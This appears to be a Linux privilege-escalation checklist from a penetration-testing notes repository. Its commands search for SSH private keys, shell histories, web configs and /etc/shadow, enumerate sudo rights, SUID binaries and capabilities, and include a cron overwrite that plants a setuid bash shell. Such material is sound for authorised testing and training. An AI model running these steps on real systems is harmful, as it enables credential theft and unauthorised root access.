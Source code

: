 # 3 privEsc (linux)

## Manual scanning

- Check for sensitive files in home directories.

```
find /home/ -name .bash_history 2> /dev/null
```

```
find /home/ -name .ssh 2> /dev/null
```

- Check for sensitive files in web server directory.

```
find /var/www/ -name "*config*.*"
```

```
find /var/www/ -name "*.db"
```

- Check for sensitive files in other directories.

```
/home
~
/
```

```
find / -name id_rsa 2> /dev/null 
```

- Check for readable hashes

```shell
ls -l /etc/shadow
```

- Check sudo commands.
You don't always need the user creds to run this escalation!

```shell
sudo -l
```

- Check group memberships.

```shell
id
```

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check `/etc/crontab` for interesting cronjobs. See if we can do malicious overwrites such as
```
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

- Check files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

- Check the environment variables of the shell. 
- Check if there are scripts or commands to are vulnerable to `PATH` manipulation.
- Check for kernel exploits.
  - Determine kernel version using `uname -a`.
  - Search exploit databases for match.
  - Run exploit.

## Automated scanning
- LinPeas [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng).
- LinEnum [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum).

